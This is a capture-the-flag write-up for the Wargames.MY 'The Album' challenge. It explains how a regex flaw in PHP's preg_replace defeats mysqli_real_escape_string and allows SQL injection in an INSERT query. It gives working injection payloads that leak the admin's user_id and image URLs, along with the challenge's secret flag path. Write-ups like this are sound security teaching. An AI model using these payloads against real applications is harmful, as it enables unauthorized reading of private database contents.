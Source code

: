 Challenge Description
```
WGMY Fortnight Challenge #1902

#1902 The Album

can you leak admin's secret album?.
http://fortnight1802.wargames.my:8001

And you may find this helpful:
https://drive.google.com/file/d/1ei2RloOrmsUmlzIFkzvgutctIMcwFocS/view?usp=sharing
```
# Analysing
Look at the source code, there are 4 main function:
- Register
- Login
- Add image
- Delete image

In Register and Login, the username parameter is pass to `mysqli_real_escape_string()` function and password parameter is pass to `hash()` function
```php
$username = mysqli_real_escape_string($con, $_POST['username']);
$password = hash('sha256', $_POST['password']);
```

So SQL Injection is not possible in Register and Login

In Delete image, the delete parameter is pass to `intval()` function (Convert to integer), so also not possible to perform SQL injection.
```php
$id = intval($_POST['delete']);
```

Now only left Add image, 
```php
$url = mysqli_real_escape_string($con, $_POST['url']);
$scheme = parse_url($url, PHP_URL_SCHEME);
$ext = pathinfo($url, PATHINFO_EXTENSION);
if (($scheme !== 'http' && $scheme !== 'https') ||
    ($ext !== 'png' && $ext !== 'jpg')) {
    echo 'Image format not supported<br>';
} else {
    $name = preg_replace('(.png|.jpg)', '', basename($url));
    $query = "INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')";
...
...        
```

First it pass the url parameter to `mysqli_real_escape_string`, `parse_url` and `pathinfo`

`parse_url` is to extract the URL scheme like `http` and `https`

`pathinfo` is to extract the URL extension like `.php`, `.html` etc.

Both function seems not vulnerable, continue to next line:
```php
$name = preg_replace('(.png|.jpg)', '', basename($url));
```
It pass to `basename` and pass to `preg_replace` 

`basename` returns the path to a file or directory of the URL

`preg_replace` is to perform a regular expression for search and replace the content

So this expression `(.png|.jpg)` is regular expression

According to regex101.com:
```
1st Capturing Group (.png|.jpg)
1st Alternative .png
. matches any character (except for line terminators)
png matches the characters png literally (case sensitive)
2nd Alternative .jpg
. matches any character (except for line terminators)
jpg matches the characters jpg literally (case sensitive)
```

It replace not only .png and .jpg, **because `.` in regex means any character except new line** 

So means if we put `http://jjpg.jpg` as URL, the `name` variable will end up become empty because it replace with empty string.

# Proof of Concept
1. Put `http://'jpg.jpg` as the URL
2. `mysqli_real_escape_string` will add a backslash before single quote (`'` become `\'`)
- `http://'jpg.jpg` become `http://\'jpg.jpg`
3. `basename` will extract the file path : `\'jpg.jpg`
4. `preg_replace` will delete the extension 
- `'jpg.jpg` will be deleted so left `\`
5. `\` will be put inside the query as `$name`:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '{$name}', '{$url}')"
```
6. **`'{$name}'` become `'\'` (quote is not enclose because `\'` is treated as a string)**

Submit the URL `http://\'jpg.jpg` you will get `Failed to add image` response:
![image1.png](image1.png)

Meaning the **SQL query is failed** in other words, **the query is injectable**

# Exploit
In order to read contents in the database we need to enclose the single quote

Because `mysqli_real_escape_string` add a backslash before single quote, we are possible to do that:

`http://'jpg',(SELECT 1))#.jpg` $name become `\\',(SELECT 1))#`

When inside query:
```php
"INSERT INTO image (id, user_id, name, url) VALUES (NULL, {$_SESSION['id']}, '\\',(SELECT 1))#', '{$url}')"
```

Then we can read the url content by inspecting the web page:
![image2](image2.png)

First, find the admin's user_id:
```
http://'jpg',(SELECT id FROM user WHERE username = CHAR(97,100,109,105,110)))#.jpg
``` 
Result: `34`

But I encounted a problem when select from image:
```
http://'jpg',(SELECT url FROM image WHERE user_id = 34 LIMIT 1))#.jpg
```
It return `Failed to insert image`

After some research I found that inside INSERT statement, SELECT statement inside cannot have the same table name

According to the [docs](https://dev.mysql.com/doc/refman/8.0/en/insert-select.html):
![image3](image3.png)

In order to fix that just use SQL Alias that will change the table to different name

# Solution
The final query that can leak admin's album:
```
http://'jpg',(SELECT GROUP_CONCAT(i.url) FROM image AS i WHERE user_id = 34))#.jpg
```
`GROUP_CONCAT` is a function will select multiple rows into one line, and each row will separated with `,`

Result:
```diff
https://i.kym-cdn.com/photos/images/original/000/435/652/1f9.png,
https://i.kym-cdn.com/photos/images/newsfeed/000/471/542/069.jpg,
https://i.kym-cdn.com/photos/images/newsfeed/000/549/306/165.gif,
+ /secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png,
https://i.ky
```
Saw a few nonsense image, only one is the flag image:
```
/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png
```

Go to http://fortnight1802.wargames.my:8001/secret_9hStNLrSEtnBGwk0ZYTeVb8j7YMv58/flag.png and there's a flag!

![flag](flag.png)